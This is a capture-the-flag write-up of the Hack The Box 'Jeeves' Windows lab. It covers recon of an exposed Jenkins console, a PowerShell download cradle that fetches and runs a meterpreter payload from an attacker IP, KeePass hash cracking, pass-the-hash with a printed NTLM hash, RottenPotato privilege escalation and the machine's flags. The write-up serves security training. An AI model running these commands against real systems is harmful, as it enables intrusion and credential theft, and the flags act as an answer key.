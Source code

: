 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
decription : Tools and techniques used, pass the hash, msfvenom and john 
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
- Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
- We use Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

- /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

- To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

- On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
- Select “Add building Step” and select  “Execute Windows bash command” 
- On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

- Start apache and place meterpreter.exe file for download 
- Set up multi/handler
- Run the shell on jenkins 
 
# Privilege Escalation Method 1
- Download CEH.kdbx keepass file and use john2keepass to create a hashdump file
![](https://lh3.googleusercontent.com/9OJrTvzMPP3i6evtNryFb5qTsbZ6hYuMsMxVBMCexwdiFRNtLMd5FDONHlZp29jVycy-DZm5HfJp8sOJMucFUtKf4CyUFQ5eFgS7vfP_IrTF8vFrMomsv2y3RkN3O1LvhsqlwZ9-EoCTWAHNOKHamfJXGx0REoXq4ZAvfawWAfFltjR7pClbmr9thvwl861bHfCizrQfyctVoHuVthL4M9C56d353wTSv_ZT0C3M0CKiQ3PVva9lwEIUQkSXsDLBP_MoVNKnl2j5tfgkJ7RLwu7awrimMRsmUmZZIKhJQYxG1nLgPaSOO8jnGS4cPCP8ythKmrJPbamj_aukj5Js7dX7uplGdBLoIZ7eqvp9ynhUpypwTMUz1qV0blONEDMI0Z9DAv21mupuwy9lgEhldxUGSbkWWCeNCD9wdXgARa68Fj_Z34ymA5deD938PrLFwZNW-dK9atiHSty3PuJZ137cSjJJeCE12eKr9T5-vMPuPCoqtsPbQPBFnRr0rPcKsXVPVkWmRcG1uS4ut7fdcTOeKWcGRpY6qoX-RGaGcjosh0iOmI1gWGplcIZ13ets4HTdUOBTqYbYtf4VwNSzeHakxkzYq-QvogDZoGfQ7pIWez5zNa6eWHy9Qyrkel_So7jCZPTCupseRaP9_fjg2EBzk-7i-fsNSb_-741OtvOmM0MErJ3yijA=w702-h41-no)

![](https://lh3.googleusercontent.com/V2iiPSYdkJN0xPncus61RGEf31aNjntGxobvD15RWQ3fUoJzXke3K1Tue5ZI1Bj2bTo6v2fcASLwknkVEGR7po5ilL5n2hes31D_H6W8AOCr3dW_R3DbkfV0CccSpGIag-f7nfhVzWw74n_CwbpL4jgGPh7apMcnEqnfrGytrq35ancCHvjt4eVcPTTqqfkxNcfn0uWbUTL3TFGH7BMxf96l8SypVKWsSizSgGu6SzkDy8qwHPeVc8PcvxZaQMYBgfgJR12zwEjzEEeOPKBVbn7QHbtk2ev43cKlOOa8sG9u373O7f4_oKZ06XM7OktzPVmt0gFkxm46MLnvZdtbrqs_iCgW0FIsp5SiITAtU3kkEa4dm2RkB7ZbZuc4apRbVFN9aIYUrxAg9R3T5dAV_fomwvfr0xMAYpTfShNPUCXfu_Q6FAf7q4nyy2saITO2oFe7NTt7RYAkXqc1nuIONF5v-iGDG9l925kQRN_ltKVmeS30Uesla1b2SyiEGFkisnK523pzz6P0BH2nsegS3Ajgj6miEXUZLkViGgFWsU1snZqOe7VDZiZjN2gN8dDD3YWgWmOn420f3ATQULPWRakbezNnOPDpiEC7pagobe2gpcg1fr8_BuH-9Y9NOMZJSMQCecRic3bBYdtF6gJNfJJdBmLXuW3A1jQs7JhxwA30pr6EAVQubFg=w1345-h92-no)

Crack the has using john format=KeePass and wordlist=rockyou.txt and we obtain the pass : CEH:moonshine1 to load the keepass backup file.
 
Install Keepass2 : apt-get install keepass2

![](https://lh3.googleusercontent.com/Islqk6gH29nUfCHj6hmq2q71eDb4v8npwOjXZH-YWU4PXsKopusOcWfZpf2bVwFKsoSaoNeWRc82p7xuMjyZI3MmXMqLDb2f2B0wGH19CIQm5V_rsxOajEFUN2On2LOzpFQA3PwwsYW02m5v3eeLUNbYVZYZAm9NJlfqjnJRKC1uHWapMeWIjhhlV2pFT_Aqpq2_E_t6SXiwiBP3IF37eCHgndzIrHCy0fZ6rvRxxr47NRBjkj5UvwhHuyI6oDH_PJvpjOOuyLpuJ4BkG33cdIZZWujGHfweBdZqNVkdID3pLb0wZbAuwcPq_yQ1wluC3QbJ9acLlI_9FZV91d-n6xGZOlAZiatAf6iMxtC4OtjwcRSaEdYYg1fdm_k6o16WkAktDww9rRjmkvYz6tBAtZsca4TG3RHimXsxagR-lQNMMPRMZLAPP83Z6U-TjCEWhlatFs2tMtTSqMxkdlXhmFTx7E1N3kCVOPE2I89I3vNLVnaKtw2KjzTI7R0zP-INNBzP-cVAOOjKip05lrlI8GS_iFkR5b6SV5hekOTC9fqmrb5ZTHq4WsKwoPB48kvBsJVqXuyQi0jjMdha9zMuFV5QxQK4-v4P0xXh3pywPSf61DRGjOZPKkxjm0vEFilKOftQ1jGHKtsSqtffwNwwokLPI87u3UdQRonyC-dpaoSoW_jRvuAqQ5I=w880-h380-no)
![](https://lh3.googleusercontent.com/yESheUKzZintmFdhx5grIB2zb4xqmTSHK2WESoOWO4f_BREzErS47xF7urY02sxJ6y6IQRF3hXu6cNg0JjTM1iI6-TWS8cj9wO_qijOF_BcZVsEysvmuv321r1mhSfAXCYCQingIrtmwmTkcbmhl_QSmFIapTtKkO6A7Fx6eTcBOWlJGJ4zA2Jr7SfXMri3Gm5A0GbSx7HnRLmzR9LLwJ-tLp5vIHg_pBLoft8bH0c1NMFqiPlebp-KWeK7JSEDT_i2HCk7nDT2Naw9Zwpl3_PyYIS2BNfvSclSNZNq4_IV4kFBir2e6_MHnlSFH9F-v42hxhXnNXAzFHOYIm2DPmfOZ-_aQ05bStVMjDkT8ZmcyJ5lYyFXeLGthuMTcedri41MKxYrquY8pPzNS25Nv-dXjOFx10wjg3j1kXvO5vz63xxWKyiKozyWOTaCLidmHMNSRO0Rc4iCzbNvKfWNErZc4pr5pNlA1cCCXNtkik8cpfNBeLfmjoSW0l_L6HZ71NBcdp65OphiFlHj8l8SKyX966PNokooYu4ND59OqZGUdIl_jb-7GAHe0Oj-2_ZEi1EYf00fgikl_SYeVO6UaQbsiw_c_yFhB4rgIjUznoUuNxMZ7o2ad4h9FKHZyWGOxunKXVfVNgmv5-wBOk3zUh3Mpy9hHk9E2zzZfouiqjJNbKS-Tj-cLg08=w665-h271-no)

We obtain the admin NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Using msf "windows smb" we connect using a pass the hash techique:   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
![](https://lh3.googleusercontent.com/eBGePb4dnYzjoWMM-uXeEVgU0B46DEP9OgC_jyx8zfjsLP751XG5pEewQIpctBbWS5_J8PwDD5jVA-KrKoV7QgQxgWd0W6m-71PKfePq7xgLdVMytDA8OiAL-_koytlRo-5RaMwu8iZc3dIsHmq0hYVxvDMaxzyeH_DjcDl_hAJqQ1sDZLzaVX7tAth7l8yWfvlcvNoOPQ2ydYo5QKMTd4HbsnwacR5PzQZ12NIPXsRRJWwgkpHaZvTYLU2A799DJXPJLQZjBoe1K9WY8bGyn8Ecd3QfBXFVuLVHPdpS74V7s7H_01iEgGVk6d39JKRcoHZxIyKsH5TXzcWFX_CSCMyxRZTl2hUw41VvyXQ3sd-XavvAn4XPNEcioBey3fJyzLk89FED6qEMUnriqdnmQ-DXtDNjO6lfJwG75pDVecQrck1ou6IACPABkJTqvbk6-_uWNcASpUYnNGhKUb0Hk2E95Jwl7BH_lSKNGGI9arxIXDLe-jHREUdpRCLfwLx7yV5bPQfCtY4zPI3ENM_AUGGr_tl5QMXmKNo3dVlBI8Cy-BuuDsx3MOmV5QvBLF9PXfj9EXHA1nle7ahUKbgQTxByBQZ-dcUCdBCPJBaLkzRbELxKX8nQGGXcxjA3--NYeMvx8DJB5dGFGO4-sLeou4CMl1UA6jxc7Zumi272S3fDpfmbbWHcU1M=w800-h135-no)
![](https://lh3.googleusercontent.com/jkBEIkugszoadzManrJjWgPSIbhMSZ8GCHx1CgbEUGvemic6IjOqB0oLqNJ_UZi9o6S2uEOpWKLS8HZqiNRkh01l3dPXAslRa4bbVsZcZQpFlz_WKW8_WcnH2iW9pOAhyEmUzWb-AxmsCldGiQIJT4t7reDBZeJomaNh146EKAgSjFTZvE8_oMV16MmhKHvPRhUQyAGzFQwvN2gqvu1SWiwVfZuXy3JembymELFzWpITfviVRZHOFQM6qLTZ2enZWELKBixCIkXoDxXOs5qNXaUJuNUBCRLZMUp52D3xncwImlnXN_oSHV5tTFS4ymRinMLIKiavRhAbbWkBkUVHShKOjcVfxpAihdt0Lb1oTcGy58xqfggYpruewA89FUp9SK8K-cHRG-y-SfM0HsouT5c9zu-CW0v8gx5zCR3r0Wqhq77A9C_PV4xkpgeTQdfTx5rV2CUROlN9TSaYxGedNUtZWSznAWcRbBEFyDzYQyTMrgUuJ1PCYN5IUDwKSywX5HYdwcMvdShwlNn3XHLM7wOLB2r9lSc0YeKiVkm_m8MhLxs0DnoI8vyXYCJBoKfSs-dXlirhkPP65i9XxBh9_PZj1BL1pOA7Qoo2AG9VAyQiZ1NZuU_fGnhq8HDA2jeVLB2GG-AdecuEMF9wM0t-AwQ0PaoySeJ4SsnfAuMqJZFnW3JIBHbv9EI=w1027-h250-no)

There is an alternate data stream applied to the ROOT flag. to view flag
`dir /R
more < hm.txt:root.txt`

![](https://lh3.googleusercontent.com/xpd9SOEyI-JiReW2JbioAi5AHMCFGy0V0tHvKOvKTVGHz_cFIYogPb7A97ebQStpAVXRvvO8wSzkWQ8-RVjdsPBPuXU3WXIu-1F2CCcJB6NJQjm7i1FFZoM6yRXo4OwLSdLemtzVfa6FkZ01TK_YqR8Ek88JQDalshpNtugrdYquLhrOaDaK2knsxfvJCNVmFzvBM36fNmerXk6v1rLlGuZ_XHYU13qbQUlJrBB03UCCp3KSxXY_5njK80QIFHOAvrUlEOsg2GgHXiRY1PJys_OQ9QOkIDmOTbSGPm10tImD1CAoulflJDb7FYywwHTgU6QYHCgvgkmZ7P8Z_4O0YKmdko7PG-QPWMC2Z1hEsK-bcJzzLR77tsxXslJjzzmxDcbYAOAoGqov0cN-GeOln22HWPmRN0DujJennCg6ARTRuiWK1v6CHOAq2gChBiH6xYqcU9Lw_HigXJV0dc70_E9q3Cj8MpEjevgZdq2DXk0T9892WvKy562S_aOQc4OexG7_kiB4M-4NqIGwGS2YK-tkxFeXI5lJHOfPlSAkdbJl27L6tFsfFyxxFIXcYgi2n0Z72pKqVd6Isr3ci3MnDlFFmkdyUnEm3RPD_uH7mMaxpT8ZPLTFBU41wkIuvixCa0Cr6fSvTnMfmnOhxvK4v6H5mgpNn0uS5FuD1b5LwhMz_7vaf1S5z6o=w567-h457-no)

# Exploitation Method 2
On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

Set up an nc listener to recieve the shell and set up a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)

![](https://lh3.googleusercontent.com/SQMm5Heeyenkw81qqmiX454UcyGRe9p_VcJfniTFz0RZCHnL-QvTifqdbCl6dC72qSFh0oRG0h9V3vXkbpoD1Koa1HHTdn0qSBpaNNdgkEUNVp6jsOXPcfmCdD1yOLZ_iTcU2GxL-TadvjMiCjqvTjEcbn3Q7U-4SBOLAFKLbbXfFB9zEGhuGbNPgxqIqU3JOn_2sWHKNaGpJ3bKZw-jM6_SxRtEkuWhXWi3Rb7AAv9t5ES94Qs3T02yGCbuWT93dx82vDNPFLAnSfrduEuaonH8evQRczYeGg2Swk4VdE1Ceg3AUq35nH5a4eBgOwGWIxYknK_EiGo3oWqnUxCZSp2R8dNwtrfy-qE9U8PkJyYpwGVI8F6o4sZNFqOm1oUKYBr0Vn7bM2pQ_qCIQ7_CLI-Nr3RhqG9LQsJUiZ7u3gfpmIrW0oLFBPDfWF6t71Y9wVS5mpNSt6qvwHLv91affyrzYh2UI-pMK1FIXsLPelY8RmHlr7sYD28i6-i-xT5FJDTe6mdsm2rOHzoN_6TTXjBKh88hFb9aloCEeiwaDEGNQvrMiFR9jU_RZkqh_ZkXyshCIorKF0SDR0nOP3ZyCn41NpEyAe4taz17ArwaOLa80lNNLj5D-_u2HoZ3O-kPuKcS_ukcQtF313X0dcHJ7Zjs-CXJ1-Bpxi1IPVPzwzLGBjW0VyRlKKo=w1134-h331-no)


# Privilege Escalation Method 2

We Use Windows Exploit Suggesters and we choose the Vuln MS16-075; we upload RottenPotato.exe to the target machine
Then we load meterpretert incognito: load incognito
We execute the rottenpotato.exe file
Then we type:
```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.
![](https://lh3.googleusercontent.com/zBWypHEBhLc6rJr4e0nfdaRSeTA51f4sOLArH4Jz_UlHQR7wxJ90Lsz4ohA_CoQv0AIDnwycooSnaCz9CqBnRHbzA80EkXYQa5cDtEIaCr06jkCFDl9P0Nz8n94mriplK7pPnNix-Pqbl1XHr5V4lnkVIHBch-K7NoazKkcKnxk9lsIwJcVNc_6w9JAy7muxtJHZnk0e29zCjKQnzJKtSb3Fmq-dq1RoeHWBiT4yv7bbehtyvzSUHhDCrEC040zNh5QNeUMNyUikSoylSkyk5b1sOks-qb5JuwdNAQPqhyPfjNcuPB9vs4ARnBOHwZtPZ6ML9fkYCdkhTYx__nEj1hxXPwXX8lSQMU6DyfVzsL3Yig6vlHFtvoYxgyUUlUx7cknjgoLm7ZYTJ6KqhiWmSFhb7cAjZpLC07V9_h90PReJ7KgFP0CQ2cXUOZpjzzrf5-nqDhbZXh9QAFJ7qbjRqeQ6c-E9aMn6dkdV6ONRqMrbw9P3HI6tGonaXaRa6tl4mYfB2aKQHf5t_uQ9oYzIdPGP0vz26cLW4wS2cm-wzGzn1nN5228YVD4Ju3n6q6xCGolE9LMzyPc5H_RACVnResBfUgvp8O-jt9pC3QrSy16t1kb2h0d8aNjbgonKh2J7wKKz4S7I8qx7BnkEyfH859uIb3V_1Ef8GlyEytzBJMf-q7x9ZeZOXxA=w656-h308-no)

# Flags
```SHELL
 ROOT  "afbc5bd4b615a60648cec41c6ac92530" 
 USER  "e3232272596fb47950d59c4cf1e7066a" 
```




